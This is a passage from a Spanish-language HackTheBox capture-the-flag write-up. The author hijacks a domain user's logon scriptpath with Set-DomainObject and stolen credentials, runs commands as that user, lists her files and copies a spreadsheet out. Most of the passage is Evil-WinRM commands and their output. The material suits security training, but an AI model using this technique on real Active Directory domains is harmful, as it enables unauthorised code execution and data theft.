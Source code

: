 Y ahora utilizando el objeto `$Cred` que hemos creado anteriormente, cambiamos el `scriptpath` a nuestro script personalizado para el usuario `maria`
```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> Set-DomainObject -Credential $Cred -Identity maria -SET @{scriptpath='C:\\Windows\\System32\\spool\\drivers\\color\\foo.ps1'}
```

¡Y vemos que funciona!
```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> type poc.txt
object\maria
```

No podemos enviarnos una revshell como `maria` por las limitaciones del firewall.

Vamos a listar que tiene en su directorio personal de trabajo por si encontramos algo interesante.
```console
Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> echo 'ls -force -s C:\Users\maria\ > C:\\Windows\\System32\\spool\\drivers\\color\\poc.txt' > test.ps1
```

Cambiamos otra vez el `scriptpath` por si hay algún script que lo reestablece, algo común en HackTheBox.
```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> Set-DomainObject -Credential $Cred -Identity maria -SET @{scriptpath='C:\\Windows\\System32\\spool\\drivers\\color\\test.ps1'}
```

Abajo del todo del archivo vemos lo siguiente, un archivo `Engines.xls`
![Write-up Image](images/Screenshot_25.png)

Vamos a copiarnos este archivo.
```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> echo 'copy C:\Users\maria\Desktop\Engines.xls C:\Windows\System32\spool\drivers\color\Engines.xls > C:\\Windows\\System32\\spool\\drivers\\color\\poc.txt' > test.ps1
```

Cambiamos otra vez el `scriptpath`
```console
*Evil-WinRM* PS C:\Windows\System32\spool\drivers\color> Set-DomainObject -Credential $Cred -Identity maria -SET @{scriptpath='C:\\Windows\\System32\\spool\\drivers\\color\\test.ps1'}
```
